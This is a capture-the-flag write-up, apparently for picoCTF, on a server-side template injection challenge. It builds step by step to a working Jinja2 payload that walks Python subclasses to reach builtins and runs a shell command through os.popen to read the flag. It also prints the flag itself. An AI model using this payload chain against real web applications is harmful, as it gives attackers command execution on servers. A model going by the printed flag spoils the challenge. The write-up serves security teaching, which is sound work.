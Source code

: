 # Problem
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!   
**Hint:** Server Side Template Injection

# Solution
Let's first check for what kind of template it is, with `{{ 10*10}}` which shall give "100" as output which deduce it to python(Jinja2) or php(Twig) templates.  
We can confirm it using this command: 
`{{ ''.__class__ }}` → "<class 'str'>" confirming its a python string.  

Through testing we developed:  
`{{ ''.__class__.__mro__[1] }}` → Gets base object class  

`{{ ''.__class__.__mro__[1].__subclasses__() }}` → Lists subclasses  

Found a vulnerable subclass at index 133 (this is environment specific).
To exploit this, we enumerate the subclasses to find one that allows access to dangerous built-ins. For example:  

```python
{{ ''.__class__.__mro__[1].__subclasses__()[133] }}
```

This reveals the subclass `<class 'warnings.catch_warnings'>`, which can be leveraged for code execution. The exact index may vary depending on the environment, so you may need to iterate through the list to find the appropriate class.  
Now with some more back and forth we build this,  
`{{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat flag').read()") }}`  

Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`  

Always look for classes like "__globals__, __builtins__, os or subprocess" 